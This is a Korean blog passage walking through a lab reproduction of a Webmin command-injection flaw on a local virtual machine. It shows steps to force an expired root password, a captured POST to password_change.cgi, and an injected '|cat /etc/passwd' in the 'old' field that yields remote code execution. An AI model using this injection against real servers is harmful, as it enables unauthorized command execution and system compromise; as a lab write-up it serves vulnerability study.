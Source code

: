 아래와 같이 root계정 비밀번호를 변경하려는 시도를 하면 비밀번호가 만료된다.

![](https://chanbin.github.io/assets/img/webmin/3.png)

`Force change at next login`을 선택하고, Save해야 한다.

다음으로는, `root`계정 선택하고 `Delete Selected`버튼을 눌러준다. 물론 본인의 계정이라 지워지진않고 계정 만료가 된다. 

<br>
<br>

로그아웃하고 나와서 다시 `root`계정으로 변경했던 비빌번호로 로그인하면, 아래와 같이 비밀번호 변경화면이 나온다.

![](https://chanbin.github.io/assets/img/webmin/4.png)

<br>
<br>

비밀번호 변경 요청을 하고 Fiddler로 해당 요청을 잡은 화면이다.

```http
POST https://192.168.56.101:10000/password_change.cgi HTTP/1.1
Host: 192.168.56.101:10000
Connection: keep-alive
Content-Length: 61
Cache-Control: max-age=0
Origin: https://192.168.56.101:10000
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/79.0.3945.79 Safari/537.36
Sec-Fetch-User: ?1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Referer: https://192.168.56.101:10000/session_login.cgi
Accept-Encoding: gzip, deflate, br
Accept-Language: ko-KR,ko;q=0.9,en-US;q=0.8,en;q=0.7
Cookie: redirect=1; testing=1; sessiontest=1; sid=x

user=root&pam=&expired=2&old=pass12&new1=pass123&new2=pass123
```

<br>
<br>

해당 파라미터 중 `old`값에 `|cat /etc/passwd`를 추가해 본다.

```bash
user=root&pam=&expired=2&old=pass12|cat /etc/passwd&new1=123123&new2=123123
```

<br>
<br>

정상적인 응답값 아래에 원격 코드 실행에 대한 응답값이 들어있다.
